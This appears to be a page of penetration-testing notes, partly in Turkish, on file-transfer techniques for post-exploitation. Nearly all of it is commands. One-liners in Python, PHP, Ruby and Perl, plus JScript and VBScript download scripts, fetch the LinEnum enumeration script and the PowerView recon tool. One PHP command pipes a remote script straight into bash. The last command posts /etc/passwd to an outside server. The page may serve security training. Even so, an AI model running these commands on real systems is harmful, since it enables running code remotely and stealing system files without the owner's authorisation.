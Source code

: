 ```yaml
---
icon: material/circle-small
---
```


# Transferring Files with Code

## Python

### Python 2 - Download

```bash
python2.7 -c 'import urllib; urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Download

```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

### PHP Download with File_get_contents()

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### PHP Download with Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### PHP Download a File and Pipe it to Bash

```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Other Languages

### Ruby - Download a File

```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

### Perl - Download a File

```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

Aşağıda verilen script dosyasına bakalım:

```javascript title="wget.js" linenums="1"
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Herhangi bir dosya indirmek için bu dosyayı `cscript.exe` ile birlikte kullanabiliriz:

```batch
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

Aşağıda verilen script dosyasına bakalım:

```vbscript title="wget.vbs" linenums="1"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Herhangi bir dosya indirmek için bu dosyayı `cscript.exe` ile birlikte kullanabiliriz:

```batch
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## Upload Operations using Python3

### Starting the Python uploadserver Module

```bash
python3 -m uploadserver
```

### Uploading a File Using a Python One-Liner

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
